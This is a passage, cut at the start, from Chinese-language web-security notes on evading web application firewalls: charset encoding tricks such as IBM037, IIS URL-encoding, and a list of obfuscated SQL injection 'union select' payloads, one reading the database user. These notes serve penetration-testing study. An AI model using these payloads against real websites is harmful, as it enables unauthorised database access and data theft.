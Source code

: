  就可以实行绕过

 

HTTP数据编码绕过

通常waf只坚持他所识别的编码

但是服务器可以识别更多的编码

因此我们只需要将payload按照waf识别不了但是服务器能解析识别的编码就可以绕过

如ibm036编码

未编码

id=123&pass=pass%3d1

透过 IBM037 编码

%89%84=%F1%F2%F3&%97%81%A2%A2=%97%81%A2%A2~%F1

但要注意在Content-Type里添加charset=ibm037

 

url编码绕过

iis中会自动将url编码转换成字符串到程序中去执行

利用这个性质可以将union select 转换成 u%6eion s%65lect

 

union select 绕过

这里我就直接抄月师傅的笔记了

针对单个关键词绕过

sel<>ect 程序过滤<>为空 脚本处理

sele/**/ct 程序过滤/**/为空

/*!%53eLEct*/ url 编码与内联注释

se%0blect 使用空格绕过

sele%ct 使用百分号绕过

%53eLEct 编码绕过

大小写

uNIoN sELecT 1,2

union all select 1,2

union DISTINCT select 1,2

null+UNION+SELECT+1,2

/*!union*//*!select*/1,2

union/**/select/**/1,2

and(select 1)=(Select 0xA*1000)/*!uNIOn*//*!SeLECt*/ 1,user()
